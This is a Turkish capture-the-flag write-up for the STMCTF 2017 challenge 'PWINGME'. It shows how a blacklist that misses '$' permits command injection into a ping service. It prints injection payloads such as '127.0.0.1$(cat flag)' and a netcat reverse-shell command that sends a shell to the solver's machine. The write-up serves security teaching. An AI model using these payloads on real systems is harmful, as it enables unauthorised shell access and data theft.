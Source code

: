 ## Soru İsmi: PWINGME

## Soru Metni:

```nc 192.168.$MASANO.5 7777```

## On bilgi:
Kendi ortaminizda dosyayi binary dosyasini 7777 portundan servis etmek icin asagidaki komutu kullanabilirsiniz. Ancak unutmayin ki, sorunun calistigi isletim sistemi ile sizin isletim sisteminiz farkli oldugu icin, yarisma platformu tam olarak simule edilemeyecektir. Ayni klasorde flag isimli dosya icerisinde flag yer almaktadir.

```socat TCP-LISTEN:7777,reuseaddr,fork EXEC:"./pwingme"```



## Çözüm: 

1. Soru metnine gore  “; & $ > < ` \ !” karakterleri girdi olarak alindiginda karaliste anlasilmaktadir. Ancak $ karakterini denedigimizde karalisteye alinmadigi, unutuldugu fark edilmektedir. Linux isletim sistemlerinde $(komut) command injection saldirilarinda kullanilmaktadir.

Yukaridaki bilgi bilinmese dahi ipuclarindan yer alan cumle (“The following special character can be used for command injection such as |  ; & $ > < ` \ !”) arama motorlarinda aratildigi zaman OWASP* sitesindeki yazi bulunmaktadir. 
* https://www.owasp.org/index.php/Testing_for_Command_Injection_(OTG-INPVAL-013)

![Preview](https://github.com/stmctf/stmctf17/blob/master/PWN/PWINGME/p1.png)

2. Bu yazida yer alan ornek kullanimlari mevcut olan $(cmd) komutunun calistigi fark edilmektedir (ornegin ; karakteri kullanildiginda “ILLEGAL CHAR: ;” hatasi vermektedir ancak $ karakteri kullanildiginda baska bir hata donmektedir).

![Preview](https://github.com/stmctf/stmctf17/blob/master/PWN/PWINGME/p2.png)


3. Ancak bu sorudaki puf nokta STDOUT’un ekrana bastirilmamasidir. Bu durumun fark edilerek ```127.0.0.1$(/bin/sh)``` komutu ile blind shell alinmalidir. Devaminda ise reverse shell acilarak kendi bilgisayarimiza shell gonderilmelidir. Reverse shell almak icin ```nc -e /bin/sh $KENDIIPADRESIMIZ 4444``` komutu kullanilabilir.

4. Kendi bilgisayarimizdan ```nc -lnvp 4444``` ile dinledigimiz ve reverse shell’i tetikledigimiz durumda, soru sunucusundan shell alinmaktadir.

![Preview](https://github.com/stmctf/stmctf17/blob/master/PWN/PWINGME/p3.png)



Alternatif Cozum Yolu:

1. Shell almaya gerek kalmadan, soru binary dosyasi ile ayni dizinde flag dosyasi oldugu dusunulerek, ```127.0.0.1$(cat flag)``` komutu ile flag ekrana bastirilabilmektedir. Boylelikle calistirilan komut ```“PING 127.0.0.1”+(cat flag komutunun ciktisi yani flag degeri)``` olacaktir. STDERR ekrana bastirildigi icin ve ```PING 127.0.0.1STMCTF{...}``` komutu hata dondureceginden dolayi flag ekrana bastirilacaktir.

![Preview](https://github.com/stmctf/stmctf17/blob/master/PWN/PWINGME/p4.png)

